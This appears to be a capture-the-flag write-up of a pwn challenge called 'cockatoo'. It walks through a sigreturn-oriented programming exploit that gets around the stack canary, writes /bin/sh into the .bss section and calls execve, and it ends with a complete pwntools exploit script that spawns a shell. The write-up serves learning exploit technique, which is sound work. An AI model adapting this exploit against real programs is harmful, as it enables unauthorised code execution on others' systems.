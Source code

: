 # File Analysis 

![](images/file.png)
![](images/checksec.png)

As we can see it's normal ELF file but statically linked , no PIE and with canary 

# Code Analysis 

We are not introduced to many functions , so we only have the main to worry about 
![](images/ghidra.png)

This code reads input byte-by-byte from standard input until a newline or 256 characters are reached (there is no point of sending more than 256 bytes as only 256 are gonna be read ) storing it in local_118. It then writes the collected input to standard output and performs a stack integrity check using stack_chk_fail.
Then it checks if our input reaches 256 character, it will print that out 
Notice there is no format strings vulnerability so leaking the canary is out of our mind at this point .

# Looking at our ROP gadgets

Using ROPgadget, and looking through the gadgets we have we only see syscall ,and pop rax that matters 

![](images/gadgets.png)
At this point we start thinking of our vulnerability here which is SROP.
But notice here our syscall has not (ret), so this syscall is not going to benifit us, We'll search the binary itself for a syscall and we find this : 
![](images/syscall.png)


Knwoing SROP we only need syscall;ret , pop rax which now have and an address for /bin/sh or some other shell 
Searching the binary for a shell we couldn't find anything with a 0x400.. address 
![](images/bin.png)

So now we are thinking of a way to write /bin/sh into the binary, and that's possible due to the ability to write on .bss section, which can be found like this : 
![](images/vmmap.png)

the purple region is our writable space, for caution we will take 0x403000 + 100 = 0x0x403100

# Our first SROP frmae for reading
```python
POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall
```

# Canary and Stack alignment

So now we know we are using SROP to write /bin/sh then SROP to call /bin/sh , but what about the canary? 
We will start by sending 256 bytes and breaking there to examine the stack , we will set a break point at 0x00000000004011ca before the strlen being called , and hit continute 256 ( c 256 ) times so our input being read to the stack :

```python
payload = b'A' * 0x100   



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

![](images/stack.png)

AS you can see, our 256 bytes + some bytes from rsi-2 + canary + rbp + ret address (our goal)

So until we reach ret address , there are \x18 bytes , notice the rbp value is 1 , so \x18 didn't work , we will use \x17 

```python
payload = b'A' * 0x100   + b'\x17' # the \x17 because we didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

![](images/read.png)

from the image we see now are prompted with another read syscall :) 

# /bin/sh address calculation 

Now our seconde read we will use it to call execve with our /bin/sh (we didn't write /bin/sh yet)
we will write it after the execve syscall and locate it first
our break point will be after sending our first payload

```python
# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 000000    # pointer to "/bin/sh" in writable memory still unknown
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload and /bin/sh
r.sendline(payload2  + b'/bin/sh\x00')

```
notice here our new stack 
![](images/newstack.png)

hit continue again , then search for /bin/sh
![](images/binsh.png)

now we have located it , our exploit is complete we just need to call it 


# Full Exploit 


```python
from pwn import *

# Assuming the binary is called 'cockatoo'
context.binary = elf = ELF('./cockatoo')
r = process()
# gdb.attach(r,gdbscript='''b * 0x00000000004011ca''')

POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall

# Payload to trigger the first sigreturn frame
payload = b'A' * 0x100  + b'\x17' # the \x17 because I didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
# gdb.attach(r)

# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 0x403210    # pointer to "/bin/sh" in writable memory
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload to execute the shell
r.sendline(payload2  + b'/bin/sh\x00')


# Interact with the spawned shell
r.interactive()
```

![](images/id.png)




